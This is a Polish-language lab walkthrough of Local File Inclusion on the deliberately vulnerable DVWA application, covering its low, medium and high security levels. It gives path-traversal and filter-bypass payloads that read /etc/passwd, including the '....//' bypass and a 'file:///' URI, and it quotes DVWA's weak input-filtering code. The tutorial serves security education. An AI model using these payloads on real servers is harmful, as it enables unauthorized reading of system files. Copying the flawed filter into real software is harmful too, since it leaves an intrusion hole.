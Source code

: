# File Inclusion- Walkthrough

- Autor: [Mateusz Głuchowski](https://github.com/hue1337)

# Local File Inclusion- DVWA

## Jak połączyć się z DVWA?
1. Wpisujemy w przeglądarce link: http://192.168.13.198/DVWA/vulnerabilities/fi/?file=include.php.
2. Upewniamy się, że poziom trudności jest ustawiony na `LOW`:

    <img src="pics/LFI3.png">

3. Jeżeli poziom trudności jest inny to zmieniamy go w zakładce `DVWA Security`:

    <img src="pics/LFI4.png">

4. Na koniec przechodzimy do zakładki `File Inclusion`:

    <img src="pics/LFI5.png">

## Cheatsheet- Local File Inclusion
- Zanim przejdziemy do przeprowadzenia ataku warto wiedzieć, czego będziemy szukali na serwerze. Poniżej znajduję lista powszechnych plików systemowych, których możemy użyć podczas testowania aplikacji:

    <img src="pics/thm1.png">

    _Źródło: https://tryhackme.com_


## LFI- Low Security

- Teraz możemy w pełni przejść do przeprowadzenia ataku `LFI`. W linku znajduje się parametr odpowiadający za ładowanie strony internetowej, którym będziemy się posługiwali przez całe walkthorugh:

    ```
    ?page=include.php
    ```
    <img src="pics/LFI1.png">


- Na poziomie **LOW** praktycznie nie ma zabezpieczeń, w związku z czym od razu możemy przejść do zabwy:

    1. Zmieniamy wartość parametru w URL z `index.php` w celu zobaczenia zachowania maszyny (zobaczanie potncjalnych informacji o błędzie np.: `... include(var/www/html/DVWA/.../file.txt) ... not found`):
        ```
        http://192.168.X.X/DVWA/vulnerablity/fi/?page=file.txt
        ```
    2. Niestety aplikacja nie podaje informacji zwrotnych, w związku z czym albo korzystamy z wiedzy własnej, albo pytamy o pomoc **WUJKA GOOGLE**. Serwisy postawione na systemów z rodziny UNIX najczęściej mają kody źródłowe umieszczone w folderze `var/www/html/`. W związku z czym analizujemy na czym stoimy:
        - Link wygląda następująco:
            ```
            http://192.168.X.X/DVWA/vulnerablities/fi/?page=include.php
            ```
        - Po adresie `IP` znajduje się ścieżka do pliku (strony), na której się znajdujemy:
            ```
            /DVWA/vulnerabilities/fi/?page=include.php
            ```
        - Wcześniej dowiedzieliśmy się, że aplikacja znajduję się (najprawdopodbniej) na ścieżce `var/www/html/`. Łącząc fakty dostajemy ścieżkę:
            ```
            var/www/html/DVWA/vulnerabilities/fi/
            ```
        - Na podstawie tego widzimy, że musimy przejść 6 folderów do góry, aby dostać się do folderu głównego. Zaczynamy tworzyć **PAYLOAD** wykorzystując `Directory Traversal`:
            ```
            ../../../../../../
            ```
        - Uznajmy, że naszą flagą będzie plik `/etc/passwd`, który wzięliśmy ze ściągawki. Rozbudowujemy **PAYLAODA**:
            ```
            ../../../../../../etc/passwd
            ```
    3. Stworzonego **PAYLOADA** podstawiamy jako parametr linku:
        ```
        http://192.168.X.X/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
        ```
        Po wyświetleniu się zawartości pliku `etc/passwd` wiemy, że nasz payload zadziałał: 
        
        <img src="pics/LFI6.png">

- Polecam spróbować stworzyć **PAYLOADY** w celu wyświetleniach zawartości innych plików z naszego **CHEATSHEETU**.

## LFI- Medium Security

- Zanim przejdziemy do ataku na poziomie **medium** musimy zmienić poziom trudności. Przechodzimy do zakładki `DVWA Security` i wprowadzamy poniższe zmiany:
    <img src="pics/LFI7.png">
    

    1. Na poziomie `medium` występuje już podstawowa walidacja inputu, którą rozpoznamy poprzez metodę prób i błędów. Zaczynamy testowanie od **PAYLOADA** z poprzedniego poziomu trudności:
       
        <img src="pics/LFI9.png">
    
        Jak widać zawartość pliku nie wyświetla nam się. Bardzo częstą metodą walidacji inputu jest usuwanie ciągów znaków takich jak: `../` lub `..` lub `//`. Srapwdźmy nasze podejrzenia i zastosujmy następujący **PAYLOAD**:

        ```
        ....//....//....//....//....//....//etc/passwd
        ```

        Efekt był natychmiastowy:

        <img src="pics/LFI10.png">

    2. Możemy również spróbować podać bezpośrednią ścieżkę do pliku i zabczyć jaki będzie efekt:
        ```
        /etc/passwd
        ```

        Efekt identyczny jak poprzednio:

        <img src="pics/LFI11.png">


    3. Przybliżę jak wyglądała walidacja inputu na poziomie **medium**. W folderze `DVWA/vulnerabilities/fi/source/` znajduje się plik `medium.php`:
        ```php
        <? php
        
        // The page we wish to display
        $file = $_GET['page'];

        // Input validation
        $file = str_replace( array( "http://", "https://" ),  "", $file );
        $file = str_replace( array( "../", "..\\" ),  "", $file );

        ?>

        ```
        Kod odpowiadający za walidację inputu usuwa następujące ciągi znaków: `../` oraz `..\`. Pierwszy **PAYLOAD** wykorzystywał te funkcję, która zamieniłą nasz ciąg: `....//` na `../`. Z koleji drugi **PAYLOAD** nie posiadał ciągu, który mogłby zostać zmieniony: `/etc/passwd`.

    4. Podobnie jak na poprzednim poziomie zachęcam do napisania **PAYLOADÓW** w celu podejrzenia zawartości pozostałych plików ze ściągawki.

## LFI- High

- Tak samo jak na poprzednich etapach zmieniamy poziom trudności:
    
    <img src="pics/LFI12.png">


    1. Najpierw zobaczmy jak poradzą sobie **PAYLOADY** z poprzednich etapów. Dostajemy informację zwrotną niezależnie od payloada: 

        <img src="pics/LFI13.png">

    2. Na tym etapie musimy zobaczyć jak zachowuje się walidacja inputu poprzez metodę prób i błędów. Po n-tym razie wpisałem `file.php` i otrzymałem taki rezultat:

        <img src="pics/LFI14.png">

        Oznacza to, że plik, który nie istnieje na serwerze został przepuszczony jako input. Sprawdziłem dla formalności inne rozszerzenie i otrzymałem identyczny rezultat:

        <img src="pics/LFI15.png">

        Z tego wynika, że input akceptuje input zaczynający się od słowa `file`. Na podstawie tej infotmacji możemy stworzyć próbnego **PAYLOADA**.

    3. Jeżeli otwierałaś/eś pliki (np.: `*.pdf`, `*.html`) w przeglądarce to pewnie rozpoznasz ten `schemat URI`:

        <img src="pics/LFI16.png">

        Na tej podstawie oprzemy naszego **PAYLOADA**:
        ```
        file:///etc/passwd
        ```
    4. Mamy nasz rezultat:

        <img src="pics/LFI17.png">

        Tak samo jak poprzednio zalecam spróbować z innymi plikami z chearsheetu.

